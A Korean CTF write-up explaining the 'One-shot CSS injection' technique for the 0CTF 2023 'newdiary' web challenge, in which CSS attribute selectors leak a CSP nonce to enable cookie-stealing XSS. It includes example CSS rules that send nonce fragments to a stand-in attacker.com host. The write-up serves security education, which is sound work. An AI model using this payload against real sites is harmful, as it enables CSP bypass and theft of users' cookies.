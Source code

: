 **'One-shot CSS injection'**은 이름처럼 유출하고자 하는 데이터를 한번에 유출하는 기법입니다. 


전체 풀이 설명보단 원리를 위주로 설명할 예정이니 전체 풀이가 궁금하신 분들은 Reference를 참고해주시면 됩니다.

해당 문제의 소스코드가 궁금하신 분은 [ctf-archives](https://github.com/sajjadium/ctf-archives/tree/main/ctfs/0CTF/2023/web/newdiary)깃허브에서 소스코드를 확인해 보실 수 있습니다. 

newdiary는 innerHTML을 사용하여 DOM 기반 XSS가 가능하며, 이를 통해 FLAG가 담긴 쿠키를 탈취하는 문제입니다.

그러나 
```html
<meta http-equiv="Content-Security-Policy"
    content="script-src 'nonce-<%= nonce %>'; frame-src 'none'; object-src 'none'; base-uri 'self'; style-src 'unsafe-inline' https://unpkg.com">
```
다음과 같이 CSP에 `nonce`가 걸려있었고 `nonce`의 조합이 `a-zA-Z0-9`이며 32자 길이고 각 요청마다 `nonce`가 바뀝니다. 

그러나 `unsafe-inline`으로 인해 `<style>`태그가 사용이 가능하고 `unpkg.com`에서 파일을 업로드해 외부 CSS 사용이 가능합니다.  

그리고 `<meta>`태그내에 `nonce`가 있기 때문에 CSS로 `nonce`를 유출할 수 있습니다.

그럼 어떻게 한 번의 CSS injection 요청으로 nonce를 유출한 뒤 XSS를 통해 쿠키를 얻을 수 있을까요?

문제를 푸는데 가장 중요한 개념은 `[attr*=value]` 입니다.  

`[attr*=value]`는 `attr`이라는 특성값을 가지고 있으며, 값 안에 `value`라는 문자열이 적어도 하나 이상 존재한다면 

이 요소를 선택하는 CSS 특성선택자입니다. 

먼저 텍스트 조각들을 각각 3개의 문자를 포함하는 많은 작은 부분 문자열로 나눕니다. 

**코드예시**
```css
script[nonce*='aaa']{ --aaa: url('http://attacker.com/leak?x=aaa'); }
script[nonce*='aab']{ --aab: url('http://attacker.com/leak?x=aab'); }
script[nonce*='aac']{ --aac: url('http://attacker.com/leak?x=aac'); }
script[nonce*='aad']{ --aad: url('http://attacker.com/leak?x=aad'); }
script[nonce*='aae']{ --aae: url('http://attacker.com/leak?x=aae'); }
script[nonce*='aaf']{ --aaf: url('http://attacker.com/leak?x=aaf'); }
script[nonce*='aag']{ --aag: url('http://attacker.com/leak?x=aag'); }
script[nonce*='aah']{ --aah: url('http://attacker.com/leak?x=aah'); }
script[nonce*='aai']{ --aai: url('http://attacker.com/leak?x=aai'); }
script[nonce*='aaj']{ --aaj: url('http://attacker.com/leak?x=aaj'); }
script[nonce*='aak']{ --aak: url('http://attacker.com/leak?x=aak'); }

script{
  display: block;
  background-image: -webkit-cross-fade(
    var(--aaa, none),
    -webkit-cross-fade(
      var(--aab, none), var(--ZZZ, none), 50%
    ),
    50%
  )
```
`-webkit-cross-fade`를 사용하는 것은 여러 이미지를 로드하기 위함입니다. 
